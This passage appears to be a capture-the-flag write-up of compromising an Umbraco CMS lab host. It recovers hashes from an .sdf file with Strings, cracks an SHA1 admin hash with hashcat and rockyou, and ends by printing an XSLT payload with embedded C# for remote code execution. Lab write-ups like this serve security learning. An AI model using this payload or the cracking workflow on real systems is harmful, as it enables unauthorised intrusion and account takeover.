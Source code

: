
##### Good Old Strings: {#good-old-strings}

-   **There be hashes in them thar** `.sdf` **files**:
    -   Eventually I just resorted to running "Strings" on the file and hoping for the best &amp; guess what, some lovely hashes were at the top!
        -   {{< figure src="/ox-hugo/2024-09-08-121704_.png" >}}


### Cracking the hashes: {#cracking-the-hashes}

-   **I run the admin hash through hashcat &amp; rockyou**:
    -   {{< figure src="/ox-hugo/2024-09-08-122201_.png" >}}

-   **It's SHA1 so cracked easily**:
    -   {{< figure src="/ox-hugo/2024-09-08-122130_.png" >}}


### HTTP Enumeration: {#http-enumeration}

-   Usually I would have done more here, but we have already gotten so far, that I did not have to do basic things like dir-busting just yet (we may come back here)


## 2. Foothold: {#2-dot-foothold}

-   I navigate to the Login Page &amp; the creds work: <http://10.129.200.122/umbraco/#/login>
-   **With our creds we now have access to the admin console**:
    -   {{< figure src="/ox-hugo/2024-09-08-122514_.png" >}}
    -   There doesn't seem to be much here in the way of information or a clear path to privesc.


### Getting RCE with public exploits: {#getting-rce-with-public-exploits}


#### Exploit 1: {#exploit-1}

-   I copy the public exploit here to my machine:
    -   <https://www.exploit-db.com/exploits/49488>

-   **I run it &amp; boom RCE**:
    -   {{< figure src="/ox-hugo/2024-09-08-163347_.png" >}}

-   After some playing I was only ever able to get single commands to run, I could not use things like `Invoke-WebRequest` etc to get a shell. I also tried to upload a `.bat` POC with a simple call back to a running webserver I had, but I couldn't even get that uploaded.

-   After looking at the source code further for the above exploit, I could see the following line:
    -   `# Based on: https://www.exploit-db.com/exploits/46153` so I had a look a that exploit:


#### Exploit 2: {#exploit-2}

-   The payload of this scrip has an `XSLT` (Extensible Stylesheet Language Transformations) script with an embedded `C#` script within it that executes `calc.exe` (the calculator).
    -   If you're unfamiliar launching `calc.exe` is a standard way to prove RCE on a machine.
        ```xml
        payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
        xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
        xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
        <msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
        { string cmd = ""; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
         proc.StartInfo.FileName = "calc.exe"; proc.StartInfo.Arguments = cmd;\
         proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
         proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
         </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
         </xsl:template> </xsl:stylesheet> ';
        ```

